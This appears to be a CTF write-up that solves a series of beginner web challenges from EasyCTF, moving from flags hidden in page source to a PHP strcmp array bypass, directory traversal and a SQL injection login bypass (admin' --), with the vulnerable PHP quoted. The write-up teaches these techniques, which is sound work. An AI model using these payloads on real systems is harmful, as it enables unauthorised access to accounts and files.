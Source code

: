 Web
-----


Plot Twist - 20 pts
----------

For this challenge we were given a webpage: https://www.easyctf.com/static/problems/plot-twist/index.html
Normally the first problem has the flag 'hidden' as a comment, but they predicted that' 
```html
    <!-- you thought the flag would be in the comments didn't you? nice try we're better than that -->
```
Just a line down though, there is a line that says
```html
<script type="text/javascript" src="script.js"></script>
```
Upon opening script.js I saw 
```js
console.log('no one would EVER think to look in the console! flag backup: easyctf{remember_to_check_everywhere}');
```

Teach Me How to Write Like This - 30pts
----------------------

This challenge gives us a wbesite where the content is blurred, but if we just look at the source. (Firefox use: view-source before the url) we can see the content just fine

```
flag: easyctf{geico_geck0s}
```

2147483648% Secure - 35 pts
-------------------
This challenge has a webpage which says there is a hidden flag. It's not hidden in plain text in the source, but there is a bit of obfustaced Javascript

```js
			var _0xa107=["\x64\x65\x76\x65\x6C\x6F\x70\x65\x72\x5F\x63\x6F\x6E\x73\x6F\x6C\x65\x5F\x69\x73\x5F\x79\x6F\x75\x72\x5F\x66\x72\x69\x65\x6E\x64","\x65\x61\x73\x79\x63\x74\x66\x7B","\x7D"];
			var _0x6fdc=[_0xa107[0],_0xa107[1],_0xa107[2]];
			var secret=_0x6fdc[0];
			secret=_0x6fdc[1]+secret+_0x6fdc[2];
```
There is no need to deobfuscate it in this case, we know the name of the variable where the data is being stored. Open up the console, and run console.log(secret)

```
flag: easyctf{developer_console_is_your_friend}
```

Wastebin 1 - 90 pts 
-----------------
This challenge wasn't worth 90 points, it shows the dangers of using client side authentication though. If we look at the source we see an array of user credentials. Admin is 
```
flag: easyctf{cr4zy_p4ssw0rds}
```

Easter - 100 pts
-----------
This challenge has a webpage where there isn't much you can do. There is a single image on the page, and the source reveals loads of obfuscated javascript. I wasted a lot of time trying to deobfuscate it, in reality the solution was to enter the konami code and press enter. Once entered, the page spat out some binary
```
01111011011011010110100101110011011100110110100101101111011011100111001101110101011000110110001101100101011100110111001101111101
```
A quick binary to ascii translation and we get:
```
easyctf{missionsuccess}
```

Personal Home Page - 225 pts
------------
The Web challenges started getting interesting here. On the main page the url is http://web.easyctf.com:10200/?page=pages/index.html

The GET value being set is the page value, which means we can control what is viewed. 

http://web.easyctf.com:10200/supersecretflag.txt however is still unaccesable. 
This is something called local file inclusion, where we can view data stored on the server.
Set the paramater to: http://web.easyctf.com:10200/?page=pages/supersecretflag.txt
And...

```
 Are you trying to hack me? 
```

It knows!

jk, directory traversal, move up one dir and we can find the file easily:
```
http://web.easyctf.com:10200/?page=pages/../supersecretflag.txt
```
There we go
```
flag:  easyctf{file_get_contents_is_9_safe} 
```

Super Secure Lemons - 225 pts
-----------------------

This page happens to use SSL, but my browser gave me an error while viewing it. I ignored it because that happens often when you run your own page, you use self signed certs. Once on the page, I inspected the SSL cert via Firefox.
```
flag: easyctf{never_trust_se1f_signd_certificates}
```

Wastebin 2 - 250 pts
------------------
Here is the information given for this challenge
```
So after the previous fiasco, I decided to generate a random admin password, and hide it in a file that no one will ever find. And don't try Googling it either, cuz Google can't find it either! Hahaha >:) Link
```

There is a hint in there, not to google it. Google is known for crawling sites, and using a robots.txt file to guide itself. 
Looking at http://web.easyctf.com:10207/robots.txt we see:
```
User-agent: *
Disallow: /2/password_Tj9WBkFpORmHYaYBG5GR7VZzgDaEM2e2aWeeCRtJ.txt
```
Check the page, and sure enough the password is right there: 11FutLBObDdAnSIyEo9LF6TLiWuG8GpHSLnRBAYD4jUGM0O4Jbt8KPasU5CpAGmZW2dX97HX4xHau8asmrN5CzIiM6Xb51plWa3q

Now, login as admin, and easy, done:
```
flag: easyctf{looks_like_my_robot_proof_protection_isn't_very_human_proof}
```

Pretty Horrible Programming - 275 pts
-------------------------------------
This page has a login form. The source tells us that the PHP (as indicated by the title) is located at index.source.php

The php loads in the flag as a variable, then reads the get variables for the password. As a side note, sneding passwords via get is a terrible idea. The relevant code is this

```php
            if (isset($_GET["password"])) {
                if (strcmp($_GET["password"], $pass) == 0) {
                    $auth = true;
                
```
The flaw is the use of strcmp. Some quick googling and I find an article that for bypassing [strcmp](http://danuxx.blogspot.com/2013/03/unauthorized-access-bypassing-php-strcmp.html)

The idea is to pass it an array and cause an error. When we click login with a password, the url looks like this
```
http://web.easyctf.com:10201/index.php?password=random
```

Set password to an array, and done.
```
http://web.easyctf.com:10201/index.php?password[]=asdsd
```
It errors out and echos the flag
```
flag: easyctf{never_trust_strcmp} 
```


Wastebin 3 - 325 pts 
-----------------------
Wastebin 3 presents us with a familiar login page. The source also tells us the location of the php source code.
The relevant code is:

```php
            include("functions.php"); // connect to mysql server
            
            $query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
            $result = mysql_query($query);
            $rows = array();
            while($row = mysql_fetch_array($result)) {
                $rows[] = $row;
```
This code is vulnerable to SQLi (SQL Injection).
If we pass the correct value to user name, we can make the entire right side of the query useless:
```
admin' -- 
```
What this does is close the ' in the query, and then comment out the rest, so the query looks like:
```sql
SELECT * FROM `users` WHERE username='admin' -- ' AND password='$password'
```
Done
```
flag: easyctf{54771309-67e5-4704-8743-6981a40b}
```
